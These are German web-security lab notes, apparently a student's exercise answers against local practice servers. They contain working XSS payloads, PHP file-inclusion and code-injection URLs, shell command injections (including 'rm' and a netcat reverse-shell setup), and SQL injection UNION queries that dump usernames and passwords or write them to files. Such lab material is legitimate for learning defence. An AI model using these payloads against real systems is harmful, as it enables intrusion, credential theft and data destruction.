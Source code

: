 ## 6.1.1.1 - 1.php
### Schreibe deinen Namen in Italic
Einfach `<i>Ertugrul</i>` in die Box eingeben!

### Namen in anderer Schriftart anzeigen
```html
<span style="color: red">Ertugrul</span>
```

### Schreibe deinen Namen in weiß
```html
<span style="color: white">Ertugrul</span>
```

### Ändere die Background Color zu blau
```html
<style>body {background-color: blue;}</style>
```

### Füge ein weiteres Feld ein
```html
<input />
```


## 6.1.1.2 - 2.php
## Versuche eine Injection
```html
myname"/><script>alert('hey')</script><span class="
```

## 6.1.1.3 - Zurück zu 1.php
### Versuche eine Weiterleitung mittels Meta Tag
```html
<meta http-equiv="refresh" content="0; URL=http://google.de/">
```

### Versuche einen IFrame einzubinden
```html
<iframe src="2.php" height="200" width="300" title="Iframe Example"></iframe>
```

## 6.1.1.4 - 3.php
### Versuche eine Injection
```html
<xmp></xmp><script>alert("Hello world");</script><xmp>
```

## 6.1.1.5 - 4.php
### Versuche einen Overlong UTF-8 Character (2 Bytes statt 1) zu injezieren
```html
http://192.168.178.93/html/4.php?name=%C0%BCscript%C0%BEalert("hi")%C0%BC/script%C0%BE
```

```ad-note
Achtung: Dies klappt mit neuen Browsern nicht!
```

## 6.1.1.6 - 5.php
### Double Encode ist false für htmlspecialentities und htmlspecialchars
- Eingabe: <

- wenn double-encode aus ist:
```html
&amp;lt;
```

- wenn double-encode an ist:
```html
&lt;
```

## 6.1.2.1 - 1.php
### Versuche die .config.php Datei zu laden
**Warning**: include(.config): failed to open stream: No such file or directory in **/var/www/html/php/1.php** on line **23**  
  
**Warning**: include(): Failed opening '.config' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/php/1.php** on line **23**

### Lade eine random php Seite
https://learningapps.org/index.php

### Lade die phpinfo.php Datei
`../phpinfo.php`

### Welche siehst du, die lokale oder den remote?
Remote, php läuft auf dem Server

### Wie könnte man hier Code injezieren? (Tipp: Mime Types)

### Was müsste man auf dem Webserver machen, um PHP Code zu injezieren?

## 6.1.2.2 - 2.php
### Wie könnte man hier Code injezieren?
`<option value="../phpinfo">../phpinfo</option>`
- Umgehen des "Schutzes", in dem Man einfach ein ".php" am Ende weglässt (Anders als bei 1.php wo man `../phpinfo.php` schreiben müsste)

## 6.1.2.3 - 3.php
### Einfach nur "phpinfo()" einzugeben würde nicht funktionieren, warum?
- Bei mir hat folgendes funktioniert:
- `http://192.168.178.93/php/3.php?maths=phpinfo%28%29`

## 6.1.2.4 - 4.php
### Wie könnte man die Anwendung angreifen?
`http://192.168.178.93/php/4.php?op_1=phpinfo&op=(&op_2=)`

## 6.1.3.1 - 1.php
### Lösche testfile1
`;rm testfile1`

### Erstelle ein simples Shell Script
`;touch myscript.sh;echo "#!/bin/bash\necho -n Hello\necho World" > script.sh`

### Gebe dem Script Ausführrechte und führe es aus
```shell
;chmod +x script.sh
;sh script.sh
```

## 6.1.3.2 - 2.cgi
### Versuche eine Datei im System zu laden
`/etc/apache2/apache2.conf`

### Versuch mal Befehle auszuführen
`| ls`

### Führ die connectme.cgi aus mit einer ip und einem Port für eine Remote Shell
Beim Remote: `nc -l -p 1299`
Beim Angreifer: `http://192.168.178.93/bash/connectme.cgi?ip=192.168.178.21&port=1299`

## 6.1.4.1 - 1.php
### Liste von allen Nutzern bekommen
```SQL
" OR 1=1-- 
```

### Alle Usernamen und Passwörter bekommen
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

```SQL
// Alle Spalten der user Tabelle rausfinden
" UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema='web' AND table_name = 'user'-- 
```

```SQL
// Alle Nutzernamen und Passwörter rausfinden
" UNION SELECT username, password FROM user-- 
```

### Version herausbekommen
```SQL
" UNION SELECT version(), null-- 
```

### Datenbankschema (= web)
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

### Datei schreiben
```SQL
" UNION SELECT username, password FROM user INTO OUTFILE "/var/www/html/sql/6.1.4.1.txt"-- 
```

### 6.1.4.2 - 2.php
Weil er Prepared Statements genutzt hat

## 6.1.4.3 - Blind injections
### So viele SQL Injections wie möglich finden
```SQL
http://192.168.178.119/cgi-bin/badstore.cgi?searchquery=xx%27+IN+(itemnum,sdesc,ldesc)+union+select+email,passwd,null,null+from+userdb+LIMIT+2+--+&action=search&x=16&y=7
```
